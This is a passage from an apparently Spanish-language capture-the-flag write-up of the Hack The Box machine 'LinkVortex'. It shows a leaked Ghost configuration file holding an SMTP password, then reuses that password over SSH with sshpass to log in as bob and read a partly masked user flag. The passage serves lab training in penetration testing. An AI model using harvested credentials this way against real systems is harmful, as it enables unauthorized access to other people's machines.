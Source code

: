 ```bash
  "process": "systemd",
  "paths": {
    "contentPath": "/var/lib/ghost/content"
  },
  "spam": {
    "user_login": {
        "minWait": 1,
        "maxWait": 604800000,
        "freeRetries": 5000
    }
  },
  "mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
        }
      }
    }
}
Enter the file path to read (or type 'exit' to quit):
```

Procederemos a probar de conectarnos al equipo mediante `SSH`, verificamos que hemos logrado el acceso y obtenemos la flag de **user.txt`.`**

```bash
❯ sshpass -p 'fibber-talented-worth' ssh bob@10.10.11.47
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.5.0-27-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Wed Jan 15 02:05:51 2025 from 10.10.16.5
bob@linkvortex:~$ cat user.txt
b0c86a993693********************
```

## Privilege Escalation
